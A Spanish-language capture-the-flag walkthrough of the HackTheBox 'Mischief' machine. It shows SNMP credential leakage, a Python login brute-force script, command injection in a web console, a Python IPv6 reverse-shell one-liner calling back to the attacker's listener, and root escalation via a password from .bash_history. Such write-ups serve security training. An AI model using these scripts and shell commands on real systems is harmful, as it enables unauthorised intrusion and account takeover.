

Resolución de la máquina Mischief de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap, con -sV para ver versiones
❯ nmap -sV 10.10.10.92
Nmap scan report for 10.10.10.92
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
3366/tcp open caldav Radicale calendar (Python BaseHTTPServer)
Para ssh no tenemos credenciales y para el puerto 3366 que es una web tampoco
Como alternativa al escanear puertos por UDP podemos encontrar el 161, snmp
❯ sudo nmap -sU -T5 --open --top-ports 100 10.10.10.92
Nmap scan report for 10.10.10.92
PORT STATE SERVICE
161/udp open snmp
Es recomendable instalar esta utilidad/extensión para ver mejor las cosas con snmpwalk
❯ sudo apt install snmp-mibs-downloader
Podemos empezar listando con una community string comun como public, algunos procesos, en especial nos interesa python ya que la web con eso corre, encontramos el proceso 805
❯ snmpbulkwalk -v2c -c public 10.10.10.92 hrSWRunTable | grep python
HOST-RESOURCES-MIB::hrSWRunName.805 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunPath.685 = STRING: "/usr/bin/python3"
HOST-RESOURCES-MIB::hrSWRunPath.805 = STRING: "python"
Al grepear el proceso 805, en una linea encontramos credenciales de loki, loki : godofmischiefisloki
❯ snmpbulkwalk -v2c -c public 10.10.10.92 hrSWRunTable | grep 805
HOST-RESOURCES-MIB::hrSWRunIndex.805 = INTEGER: 805
HOST-RESOURCES-MIB::hrSWRunName.805 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunID.805 = OID: SNMPv2-SMI::zeroDotZero
HOST-RESOURCES-MIB::hrSWRunPath.805 = STRING: "python"
HOST-RESOURCES-MIB::hrSWRunParameters.805 = STRING: "-m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/"
HOST-RESOURCES-MIB::hrSWRunType.805 = INTEGER: application(4)
HOST-RESOURCES-MIB::hrSWRunStatus.805 = INTEGER: runnable(2)
Podemos usar estas credenciales de loki para autenticarnos en la web del puerto 3366
Al autenticarnos se nos muestra una tablas con 2 posibles contraseñas para el usuario loki
En snmp ademas de listar procesos podemos intentar listar las ip, tanto ipv4 como ipv6
❯ snmpbulkwalk -v2c -c public 10.10.10.92 ipAddressType
IP-MIB::ipAddressType.ipv4."10.10.10.92" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv4."10.10.255.255" = INTEGER: broadcast(3)
IP-MIB::ipAddressType.ipv4."127.0.0.1" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv6."00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:01" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv6."de:ad:be:ef:00:00:00:00:02:50:56:ff:fe:96:4e:3f" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv6."fe:80:00:00:00:00:00:00:02:50:56:ff:fe:96:4e:3f" = INTEGER: unicast(1)
Nos quedamos con la direccion y le damos forma haciendolo en grupos de 4 caracteres
de:ad:be:ef:00:00:00:00:02:50:56:ff:fe:96:4e:3f
dead:beef:0000:0000:0250:56ff:fe96:4e3f
Las partes de los 0 podemos quitarlas para que quede un poco mas pequeña
dead:beef:0000:0000:0250:56ff:fe96:4e3f
dead:beef::250:56ff:fe96:4e3f
Ya que puede que haya puertos diferentes por ipv6 podemos escanearlos con nmap, vemos el 80
❯ nmap -6 dead:beef::250:56ff:fe96:4e3f
Nmap scan report for dead:beef::250:56ff:fe96:4e3f
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Podemos acceder desde el navegador con [], el botón azul gigante nos redirige a un login
Tenemos un panel de autenticación, pero no tenemos credenciales, las de loki no funcionan

Esperando que alguna de las contraseñas que nos dio el puerto 3366 sea valida podemos intentar fuzzear el usuario con un diccionario, para esto creamos un script como el siguiente
#!/usr/bin/python3
from pwn import log
import requests
passwords = ["godofmischiefisloki", "trickeryanddeceit"]
bar = log.progress("")
with open("/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt") as file:
for line in file:
username = line.strip()
for password in passwords:
target = "http://[dead:beef::250:56ff:fe96:4e3f]/login.php"
data = {"user": username, "password": password}
bar.status(f"Probando credenciales: {username}:{password}")
request = requests.post(target, data=data)
if "Sorry, those credentials do not match" not in request.text:
bar.success(f"Credenciales válidas: {username}:{password}")
exit(0)
Al ejecutarlo, empezara a probar usuarios con las contraseñas hasta que encuentre unas validas
❯ python3 exploit.py
[◢] Probando credenciales: michael:godofmischiefisloki
Despues de un rato encuentra que administrator es valido con la segunda contraseña en el login
❯ python3 exploit.py
[+] Credenciales válidas: administrator:trickeryanddeceit
Usamos las credenciales que encontramos en el login de la web por ipv6
Al iniciar sesión nos muestra una 'consola', donde por defecto ejecutamos 2 ping al localhost
Podemos ejecutar otro comando como id y ver el output con ; al final, lo ejecuta www-data
Importante poner atencion al mensaje que tiene la web, en su directorio home, un usuario tiene un archivo llamado credentials con su contraseña
In my home directory, i have my password in a file called credentials, Mr Admin
Al intentar leerlo parece que credentials nos dice command is not allowed y no no los muestra
Tal vez credentials esta en una blacklist pero podemos usar wildcard para enfocar todo archivo
Con esa contraseña nos podemos conectar por ssh, pero ojo que no es la idea de la máquina
❯ ssh loki@10.10.10.92
loki@10.10.10.92's password: lokiisthebestnorsegod
loki@Mischief:~$ id
uid=1000(loki) gid=1004(loki) groups=1004(loki)
loki@Mischief:~$
Volviendo a la web con la idea principal, esta sanitizado el hecho de enviar reverse shells por ipv4, pero... no por ipv6, podemos ver nuestra direccion con ifconfig
❯ ifconfig tun0 | grep dead
inet6 dead:beef:2::1007 prefixlen 64 scopeid 0x0<global>
Nos ponemos en escucha con netcat importante indicando la direccion ipv6
❯ sudo netcat -vn -l dead:beef:2::1007 443
Listening on dead:beef:2::1007 443
Podemos usar python para hacernos una reverse shell por ipv6 con un oneliner como el siguiente
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::1007",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
Enviamos nuestro comando y en el listener recibimos una shell como www-data
❯ sudo netcat -vn -l dead:beef:2::1007 443
Listening on dead:beef:2::1007 443
Connection received on dead:beef::250:56ff:fe96:4e3f
$ script /dev/null -c bash
www-data@Mischief:~/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Mischief:~/html$ hostname -I
10.10.10.92 dead:beef::250:56ff:fe96:4e3f
www-data@Mischief:~/html$
Podemos leer el archivo credentials en el home de loki, aunque ya lo habiamos leido
www-data@Mischief:/home/loki$ cat credentials
pass: lokiisthebestnorsegod
www-data@Mischief:/home/loki$
Nos podemos conectar como loki con la contraseña por ssh y leer la primera flag
❯ ssh loki@10.10.10.92
loki@10.10.10.92's password: lokiisthebestnorsegod
loki@Mischief:~$ id
uid=1000(loki) gid=1004(loki) groups=1004(loki)
loki@Mischief:~$ hostname -I
10.10.10.92 dead:beef::250:56ff:fe96:4e3f
loki@Mischief:~$ cat user.txt
bf5**************************060
loki@Mischief:~$
En el .bash_history de loki podemos ver una autenticacion con una contraseña diferente
loki@Mischief:~$ cat .bash_history
python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
exit
free -mt
ifconfig
cd /etc/
sudo su
su
exit
su root
ls -la
sudo -l
ifconfig
id
cat .bash_history
nano .bash_history
exit
loki@Mischief:~$
Puede ser que la contraseña de root pero al hacer un su root nos dice permiso denegado
loki@Mischief:~$ su root
-bash: /bin/su: Permission denied
loki@Mischief:~$
Mirando los privilegios con getfacl podemos ver que loki solo tiene permiso de lectura
loki@Mischief:~$ getfacl /bin/su
getfacl: Removing leading '/' from absolute path names
# file: bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x
loki@Mischief:~$
"Otros" pueden ejecutar asi que como www-data nos convertimos en root y leemos la flag ... o no?
www-data@Mischief:~$ su root
Password: lokipasswordmischieftrickery
root@Mischief:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Mischief:~# hostname -I
10.10.10.92 dead:beef::250:56ff:fe96:4e3f
root@Mischief:~# cat /root/root.txt
The flag is not here, get a shell to find it!
root@Mischief:~#
La flag tiene el mismo nombre pero en otro lugar, asi que la encontramos con find y la leemos
root@Mischief:~# find / -name root.txt 2>/dev/null
/usr/lib/gcc/x86_64-linux-gnu/7/root.txt
/root/root.txt
root@Mischief:~# cat /usr/lib/gcc/x86_64-linux-gnu/7/root.txt
ae1**************************807
root@Mischief:~#